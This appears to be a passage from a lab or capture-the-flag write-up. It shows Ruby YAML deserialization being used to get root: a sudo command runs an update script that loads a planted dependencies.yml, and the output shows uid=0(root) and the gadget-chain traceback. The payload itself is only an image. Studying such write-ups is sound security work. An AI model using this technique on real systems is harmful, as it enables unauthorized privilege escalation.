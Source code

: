 The above YAML payload will execute the `id` command upon deserialization if it is parsed via `YAML.load()` or `YAML.load_file()`.

Provide this payload in file `dependencies.yml`, and test it :

```shell
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Result:

```text
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

The command is executed :
